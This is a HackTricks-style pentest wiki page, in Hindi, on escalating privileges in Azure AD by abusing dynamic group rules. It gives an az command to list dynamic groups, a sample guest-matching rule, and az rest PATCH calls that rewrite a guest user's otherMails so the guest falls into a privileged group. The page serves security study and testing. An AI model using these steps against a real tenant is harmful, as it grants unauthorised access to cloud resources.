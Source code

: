 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**डायनामिक समूह** वे समूह हैं जिनमें एक सेट **नियम** कॉन्फ़िगर किए गए हैं और सभी **उपयोगकर्ता या उपकरण** जो नियमों से मेल खाते हैं, समूह में जोड़े जाते हैं। हर बार जब एक उपयोगकर्ता या उपकरण का **गुण** **बदला** जाता है, डायनामिक नियमों की **पुनः जांच** की जाती है। और जब एक **नया नियम** **बनाया** जाता है, तो सभी उपकरणों और उपयोगकर्ताओं की **जांच** की जाती है।

डायनामिक समूहों को **Azure RBAC भूमिकाएँ सौंपित** की जा सकती हैं, लेकिन डायनामिक समूहों में **AzureAD भूमिकाएँ** जोड़ना **संभव नहीं** है।

इस सुविधा के लिए Azure AD प्रीमियम P1 लाइसेंस की आवश्यकता होती है।

## Privesc

ध्यान दें कि डिफ़ॉल्ट रूप से कोई भी उपयोगकर्ता Azure AD में मेहमानों को आमंत्रित कर सकता है, इसलिए, यदि एक डायनामिक समूह का **नियम** उपयोगकर्ताओं को **अनुमतियाँ** देता है जो **गुणों** के आधार पर हैं जो एक नए **मेहमान** में **सेट** किए जा सकते हैं, तो इस गुणों के साथ एक **मेहमान** **बनाना** संभव है और **अधिकार बढ़ाना** संभव है। यह भी संभव है कि एक मेहमान अपने प्रोफ़ाइल का प्रबंधन करे और इन गुणों को बदल सके।

डायनामिक सदस्यता की अनुमति देने वाले समूह प्राप्त करें: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **नियम उदाहरण**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **नियम विवरण**: कोई भी मेहमान उपयोगकर्ता जिसके पास 'security' स्ट्रिंग वाला एक द्वितीयक ईमेल है, समूह में जोड़ा जाएगा

मेहमान उपयोगकर्ता ईमेल के लिए, निमंत्रण स्वीकार करें और [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) में **उस उपयोगकर्ता** की वर्तमान सेटिंग्स की जांच करें।\
दुर्भाग्यवश, पृष्ठ गुण मानों को संशोधित करने की अनुमति नहीं देता है, इसलिए हमें API का उपयोग करना होगा:
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## संदर्भ

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}
